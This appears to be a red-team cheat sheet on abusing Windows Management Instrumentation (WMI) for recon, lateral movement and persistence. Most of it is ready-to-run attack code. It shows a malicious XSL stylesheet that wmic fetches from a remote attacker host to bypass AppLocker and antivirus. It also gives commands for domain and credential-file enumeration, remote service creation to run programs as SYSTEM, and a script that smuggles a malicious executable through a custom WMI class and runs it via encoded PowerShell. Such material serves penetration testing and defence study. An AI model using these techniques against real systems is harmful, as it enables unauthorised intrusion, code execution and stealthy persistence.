

Windows Management Instrumentation (WMI) is Microsoft's implementation of CIM (Common Information Model) and WBEM. It provides a uniform interface for managing local or remote computers. Attackers heavily abuse WMI for stealthy enumeration, lateral movement, and fileless persistence.

<Callout type="info" title="MITRE ATT&CK Mapping">
[T1047 - Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047/)
</Callout>




---

## WMI Components

<Callout type="info" title="Core Architecture">
* **WMI Utilities:** `wmic.exe`, `winrm.exe`, `wbemtest.exe`, VBScript, JScript, .NET `System.Management` classes. (Linux: `wmis-pth`, `wmic`).
* **Managed Object Format (MOF):** Files used to define WMI namespaces, classes, providers. Stored in `%WINDIR%\System32\Wbem\` with `.mof` extension.
* **Providers:** DLLs that act as a bridge between managed objects and WMI. Provides access to classes.
* **Managed Objects:** The components being managed (processes, services, OS).
* **Namespaces:** Divide classes logically (e.g., `root\cimv2`, `root\default`, `root\subscription`).
* **Repository:** Database storing static data/definitions. Located in `%WINDIR%\System32\Wbem\Repository`.
* **Consumers:** Applications/scripts interacting with WMI (PowerShell, WMIC).
</Callout>

---

## Remote WMI Protocols

<Tabs>
  <Tab title="Protocols & Ports">
    * **DCOM (Distributed Component Object Model):** Uses **TCP Port 135**. Not firewall friendly. Default for WMI (`Winmgmt` service).
    * **WinRM / WS-Man:** Uses **TCP Port 5985 (HTTP)** or **5986 (HTTPS)**. Firewall/NAT friendly.
  </Tab>
  <Tab title="WMI & XSL (AppLocker Bypass)">
    Wmic can retrieve formatting instructions from a remote XSL file, which can contain arbitrary JScript code. This bypasses AV and AppLocker.

    **Attacker XSL File:**
    ```xml
    <?xml version='1.0'?>
    <stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="placeholder" version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc");
    ]]>
    </ms:script>
    </stylesheet>
    ```

    **Victim Execution:**
    ```cmd
    wmic os get /FORMAT:"http://192.168.0.10:8000/attacker.xsl"
    ```
  </Tab>
</Tabs>

---

## WMI with PowerShell (Cmdlets)

<Tabs>
  <Tab title="WMI vs CIM Cmdlets">
    **WMI (PSv2):** Uses DCOM.
    * `Get-WmiObject` (Retrieve instances)
    * `Invoke-WmiMethod` (Run a method)
    * `Register-WmiEvent` (Register events)
    * `Remove-WmiObject` (Remove an object)
    * `Set-WmiInstance` (Modify property)
    
    **CIM (PSv3+):** Uses WS-Man/WinRM (can fallback to DCOM).
    * `Get-CimClass` / `Get-CimInstance`
    * `Invoke-CimMethod`
    * `New-CimSession` / `New-CimSessionOption`
  </Tab>
  <Tab title="Listing Namespaces Recursively">
    ```powershell
    function Get-WmiNamespace {
        Param ($Namespace='root')
        Get-WmiObject -Namespace $Namespace -Class __NAMESPACE | ForEach-Object {
            ($ns = '{0}\{1}' -f $_.__NAMESPACE,$_.Name)
            Get-WmiNamespace $ns
        }
    }
    ```
  </Tab>
</Tabs>

---

## Host Recon

<Tabs>
  <Tab title="System Enumeration">
    ```powershell
    # OS & Hardware Info
    gwmi -Class win32_bios
    gwmi -Class Win32_OperatingSystem
    gwmi -Class Win32_ComputerSystem
    gwmi -Class Win32_Processor

    # Processes & Owners
    gwmi -Class Win32_Process -Filter "Name = 'explorer.exe'"
    gwmi Win32_Process | Select Name, @{Name="UserName"; Expression={$_.GetOwner().Domain+"\"+$_.GetOwner().User}}

    # Services
    gwmi -Class win32_service | select Name, State, StartName, PathName

    # Installed Patches
    gwmi -Class win32_quickfixengineering

    # Detect Virtualization
    gwmi Win32_BIOS -Filter 'SerialNumber LIKE "%VMware%"'

    # List AntiVirus
    gwmi -Namespace root\SecurityCenter2 -Class AntiVirusProduct
    ```
  </Tab>
  <Tab title="File & Directory Operations">
    ```powershell
    # List folders in C:\
    gwmi Win32_Directory -filter 'Drive="C:" and Path="\\"' | Format-Table name

    # List files with .ini extension
    gwmi CIM_DataFile -filter 'Drive="C:" and Path="\\Windows\\" and Extension="ini"' | Format-List *

    # Find files containing 'password'
    wmic DATAFILE where "drive='C:' AND Name like '%password%'" GET Name,readable,size /VALUE
    ```
  </Tab>
</Tabs>

---

## Active Directory Recon

<AccordionGroup>
  <Accordion title="Domain Enumeration via WMI">
    WMI can query AD via the `root/directory/ldap` namespace.
    ```powershell
    # Get Domain
    (Get-WmiObject -Class Win32_ComputerSystem).Domain

    # List Domain Users
    Get-WMIObject -Class Win32_UserAccount -Filter "DOMAIN = 'corp.local'"

    # Find Domain Controllers
    gwmi -Namespace root/directory/ldap -Class ds_computer | ? {$_.ds_userAccountControl -eq 532480} | select ds_cn

    # Get Domain Admins
    gwmi -Class Win32_GroupUser | ? {$_.GroupComponent -match "Domain Admins"} | % {[wmi]$_.PartComponent}

    # Get Domain Policy
    gwmi -Namespace root/directory/ldap -Class ds_domain | select DS_lockoutDuration, DS_maxPwdAge, DS_minPwdLength, DS_pwdHistoryLength
    ```
  </Accordion>
</AccordionGroup>

---

## WMI Methods & Association Classes

<AccordionGroup>
  <Accordion title="Discovering and Invoking Methods">
    ```powershell
    # Find classes with methods
    gwmi * -List | ? {$_.Methods}

    # Get parameters for Win32_Process.Create
    Get-CimClass -Class Win32_process | select -ExpandProperty CimClassMethods | ? name -eq "Create" | select -ExpandProperty Parameters

    # Invoke Create method
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList calc.exe
    ```

    **Association Classes:** Show relationships between classes.
    ```powershell
    Get-WmiObject -Query "Associators Of {Win32_NetworkAdapter.DeviceID=10} where ClassDefsOnly"
    ```
  </Accordion>
</AccordionGroup>

---

## Registry Manipulation (`StdRegProv`)

<Callout type="warning" title="Registry Operations via WMI">
Uses `root\DEFAULT` namespace. WMI uses numeric constants for Hives and Data Types.

| Hive | Value |
| :--- | :--- |
| HKEY_CLASSES_ROOT | 2147483648 |
| HKEY_CURRENT_USER | 2147483649 |
| HKEY_LOCAL_MACHINE | 2147483650 |
| HKEY_USERS | 2147483651 |
</Callout>

<Tabs>
  <Tab title="Enumerate Keys">
    ```powershell
    Invoke-WmiMethod -Namespace root\default -Class stdregprov -Name EnumKey @(2147483650, "software\microsoft\windows nt\currentversion") | select -ExpandProperty snames
    ```
  </Tab>
  <Tab title="Read String Value">
    ```powershell
    Invoke-WmiMethod -Namespace root\default -Class stdregprov -Name GetStringValue @(2147483650, "software\microsoft\windows nt\currentversion\drivers32", "aux")
    ```
  </Tab>
</Tabs>

---

## Lateral Movement & C2

<Tabs>
  <Tab title="Command Execution via Win32_Service">
    Create a service remotely to execute commands as SYSTEM.
    ```powershell
    $SericeType = [byte] 16
    $ErrorControl = [byte] 1
    Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false,"WinPerf",$ErrorControl,$null,$null,"WinPerf","C:\Windows\System32\calc.exe",$null,$ServiceType,"Manual","NT AUTHORITY\SYSTEM",""

    # Start the service
    Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Invoke-WmiMethod -Name StartService
    ```
  </Tab>
  <Tab title="Push Attack (C2 via WMI Class)">
    Pushes a Base64 encoded file into a custom WMI class on the remote machine, then pulls and executes it.
    ```powershell
    # 1. Push file to remote WMI repository
    $LocalFilePath = 'C:\Users\lutz\Documents\maliciousfile.exe'
    $FileBytes = [IO.File]::ReadAllBytes($LocalFilePath)
    $EncodedFileContentsToDrop = [Convert]::ToBase64String($FileBytes)
    $Connection = New-Object Management.ManagementScope
    $Connection.Path = '\\192.168.2.10\root\default'
    $Connection.Options = New-Object Management.ConnectionOptions
    $Connection.Options.Username = 'Administrator'
    $Connection.Options.Password = 'user'
    $Connection.Connect()
    $EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
    $EvilClass['__CLASS'] = 'Win32_EvilClass'
    $EvilClass.Properties.Add('EvilProperty', [Management.CimType]::String, $False)
    $EvilClass.Properties['EvilProperty'].Value = $EncodedFileContentsToDrop
    $EvilClass.Put()

    # 2. Drop file on remote system
    $Credential = Get-Credential 'CORP.local\admin'
    $CommonArgs = @{ Credential = $Credential; ComputerName = '192.168.2.10' }
    $PayloadText = @'
    $EncodedFile = ([WmiClass] 'root\default:Win32_EvilClass').Properties['EvilProperty'].Value
    [IO.File]::WriteAllBytes('C:\reconstructedMaliciousFile.exe', [Convert]::FromBase64String($EncodedFile))
    '@
    $EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($PayloadText))
    Invoke-WmiMethod @CommonArgs -Class Win32_Process -Name Create -ArgumentList "powershell -NoProfile -EncodedCommand $EncodedPayload"
    ```
  </Tab>
</Tabs>

---

## WMI Persistence

<Callout type="danger" title="Malicious WMI Providers & Backdoors">
Attackers can deploy custom WMI providers (DLLs) to establish stealthy persistence.
* **EvilNetConnection WMI Provider:** Executes PowerShell as SYSTEM without spawning `powershell.exe`.
* **WMI_Backdoor:** Uses WMI classes for C2 communication.
* **MOF Files:** Placed in `C:\Windows\system32\wbem\AutoRecover` or registered via `HKLM\SOFTWARE\Microsoft\WBEM\CIMOM\Autorecover MOFs`.
* **WMI Event Subscriptions:** Uses `__EventFilter`, `__EventConsumer`, and `__FilterToConsumerBinding` for fileless persistence that survives reboots.
</Callout>

---

## Useful Scripts & Resources

<CardGroup cols={2}>
  <Card title="Posh-SecMod (Registry.ps1)" href="https://github.com/darkoperator/Posh-SecMod/blob/master/Registry/Registry.ps1" icon="github">
    PowerShell module for registry manipulation.
  </Card>
  <Card title="Nishang (Get-Information.ps1)" href="https://github.com/samratashok/nishang/blob/master/Gather/Get-Information.ps1" icon="github">
    Information gathering script.
  </Card>
  <Card title="PowerSploit (Invoke-WmiCommand.ps1)" href="https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-WmiCommand.ps1" icon="github">
    Execute commands via WMI.
  </Card>
  <Card title="Empire (Invoke-SessionGopher.ps1)" href="https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-SessionGopher.ps1" icon="github">
    Extract saved session credentials.
  </Card>
</CardGroup>

<AccordionGroup>
  <Accordion title="Resources & Talks">
    * [BlackHat US 2015: Abusing WMI for Persistent, Async, Fileless Backdoor](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
    * [DEF CON 23: WMI Attacks, Defense & Forensics](https://media.defcon.org/DEF%20CON%2023/DEF%20CON%2023%20presentations/DEF%20CON%2023%20-%20Ballenthin-Graeber-Teodorescu-WMI-Attacks-Defense-Forensics.pdf)
    * [WMI for Script Kiddies](https://www.trustedsec.com/blog/wmi-for-script-kiddies/)
    * [Usefull WMIC queries](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4)
    * [Backdoor with WMI](https://www.sakshamdixit.com/backdoor-with-wmi/)
  </Accordion>
</AccordionGroup>
